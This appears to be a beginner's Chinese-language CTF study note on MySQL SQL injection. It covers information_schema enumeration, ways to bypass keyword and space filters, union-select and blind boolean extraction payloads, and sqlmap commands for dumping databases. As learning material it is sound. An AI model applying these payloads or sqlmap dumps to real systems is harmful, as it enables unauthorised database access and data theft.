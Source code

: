 #ctf.mukeran.cn/notes/web/1/First Attempt - SQLi

前言
====
第一次开始研究CTF，并且也是第一次给CTF写WriteUp。我选择首先接触Web，因为我曾经有过Web的开发经验，懂一些Web的知识，有一定的基础。我写的这个严格来讲不是题目的WriteUp，而是一个知识的储存积累以及心理想法的文章。这篇是关于SQL注入的部分知识和4道入门题。

重点知识
====

MySQL相关
----
**information\_schema** - MySQL储存信息的Database  
**information\_schema.schemata** - 可以获取当前MySQL服务器的数据库列表  
**information\_schema.tables** - 所有MySQL表的信息，含有有用的schema\_name, table\_name两列  
**information\_schema.columns** - 所有MySQL列的信息，含有有用的schema\_name, table\_name, column\_name  
**select database()** - 显示当前数据库  

注入防护相关
----
有些网站进行了某些注入防护。  

1. **关键词过滤**
2. 类型限制
3. 字符转义
4. ...

本次主要是研究某些关键词过滤的网站如何注入  
事实上，如果一个网站的防护做的很到位的话，是不会被注入的，那么有些网站会做不到位的关键词过滤：  

1. 黑名单整体替换(删除) - 一次或多次：  
**如果是一次替换**，也就是遇到information\_schema将其删除的话，我们可以在关键词中再行插入关键词来绕过这个保护。比如：information\_information\_schemaschema。过滤部分如果只进行一次过滤的话，那么只有中间的那个information\_schema被过滤掉，剩下的拼在一起是我们说需要的关键词。(想各种方法即可)  
**如果是多次替换**，那么就没办法破了。  
2. 空格禁止(删除)：  
**如果是过滤空格的话**，我们有多种替代方案：用`/**/`, `+`, `%0a`代替空格 
3. ...

**小技巧**：  
MySQL语句中，我们可以使用`#`或者`-`来注释掉后面的代码，那么我们使用`'`来注入时，本来还要完成`'`的一个配对(语句后面往往还包含另一个`'`)，我们可以直接在语句后写`#`或者`-`(前提不被屏蔽或者后面没有重要语句)

注入测试相关
----
对于GET请求里面的Query，我们可以通过某些固定套路来测试是否支持注入。  
对于常见的id，id=1请求正常，id=1'报错，说明有可能可以注入  
我们尝试id=1' and '1'='1以及id=1' and '1'='2来看是否正常输出结果。如果前者能够出结果，而后者不能出结果，说明这个服务器支持注入，且能够使用and语句。如果不能正常执行，有可能网站会将mysql\_query报错的结果输出，我们可以看是不是因为关键词被屏蔽。

**对于能够返回结果的网站**，接下来的步骤就是：

1. `union select database()`(被屏蔽可以尝试`union select schema_name from information_schema.schemata`)(此步用于看当前的数据库，事实上也可以不用)
2. `union select table_name from information_schema.tables where table_schema='数据库名'`
3. `union select column_name from information_schema.columns where table_name='可能flag所在的表名'`
4. `union select 列名 from 表名 (where)` 获得flag


**对于不能返回结果的网站**：  
有些时候，有的网站不返回SQL查询结果，但是会反馈本次的SQL查询是否成功，是否是结果。根据这个性质(逻辑语句执行为false该值非法)，我们可以得到：

1. 判断table, column, row是否存在：  
   `and (select count(*) from ... > 0)`  
   使用该逻辑语句来判断是否存在某一条记录。有些时候我们需要用到
burp来进行字典爆破(未实践)。
2. 判断row值的长度：  
   `and (select length(列名) from ... > {length})`  
   `{length}`从1开始增加，直到某次报错，可知那次的`{length}`为条目长度。
3. 判断row值：  
   `and ascii(substr((select 列名 from 表名),{start},1))={ascii}`  
   `{start}`从1开始增加，表示substr的起点。substr长度为1，也就是获取当前测试`{start}`位的字符ascii码，`{ascii}`从可能的ASCII码范围枚举，当有返回值时，说明这个枚举的ASCII字符就是条目中的ASCII码。

目前我只做过很少的SQL注入题目，故目前没有其它经验

一个CTF上可能用不到的工具 - sqlmap.py
----
有些时候使用sqlmap.py的话，可以免去人工测试注入点。  
`sqlmap.py -u "{url}" --current-db` 获取当前db  
`sqlmap.py -u "{url}" -D {db_name} --tables` 获取`{db_name}`的所有表  
`sqlmap.py -u "{url}" -D {db_name} -T {table_name} --columns` 获取`{db_name}.{table_name}`所有列
`sqlmap.py -u "{url}" -D {db_name} -T {table_name} -C {column_name}` 获取改列所有值  
`sqlmap.py -u "{url}" -D {db_name} -T {table_name} --dump` 获取表的信息  
`sqlmap.py -u "{url}" --dump-all` 获取所有数据库信息

WriteUp
----

> Web\_WriteUp\_1.md  
> https://ctf.mukeran.com/writeups/web/1 (not avaliable yet)